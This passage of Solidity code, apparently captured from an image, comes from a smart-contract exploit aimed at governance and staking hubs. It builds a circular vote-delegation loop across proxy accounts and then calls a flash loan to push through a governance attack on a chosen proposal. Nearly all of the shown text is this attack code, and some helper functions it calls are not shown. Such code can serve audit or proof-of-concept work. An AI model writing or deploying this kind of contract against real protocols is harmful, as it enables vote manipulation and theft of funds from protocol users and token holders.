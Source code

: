 ```solidity

    // Attack coordination
    address[] public delegationLoop;
    mapping(uint256 => AttackPlan) public attacks;

    struct AttackPlan {
        uint256 proposalId;
        uint256 flashLoanAmount;
        bool delegationLoopActive;
        bool executed;
    }

    constructor(
        address _govHub,
        address _stakeHub,
        address _flashLoanProvider
    ) {
        govHub = IGovHub(_govHub);
        stakeHub = IStakeHub(_stakeHub);
        flashLoanProvider = IFlashLoanProvider(_flashLoanProvider);
    }

    // PHASE 1: Setup Delegation Loop
    function setupDelegationLoop() external {
        // Create multiple accounts for delegation loop
        address account1 = createProxyAccount(1);
        address account2 = createProxyAccount(2);
        address account3 = createProxyAccount(3);

        delegationLoop = [address(this), account1, account2, account3];

        // Create circular delegation
        govHub.delegate(delegationLoop[0], delegationLoop[1]);
        govHub.delegate(delegationLoop[1], delegationLoop[2]);
        govHub.delegate(delegationLoop[2], delegationLoop[3]);
        govHub.delegate(delegationLoop[3], delegationLoop[0]); // Complete loop

        emit DelegationLoopEstablished(delegationLoop);
    }

    // PHASE 2: Execute Combined Attack
    function executeGovernanceAttack(
        uint256 proposalId,
        uint256 flashLoanAmount
    ) external {

        attacks[proposalId] = AttackPlan({
            proposalId: proposalId,
            flashLoanAmount: flashLoanAmount,
            delegationLoopActive: delegationLoop.length > 0,
            executed: false
        });

        // Execute flash loan attack
        flashLoanProvider.flashLoan(
            flashLoanAmount,
            abi.encodeWithSelector(
                this.flashLoanGovernanceCallback.selector,
                proposalId
            )
        );
    }

```
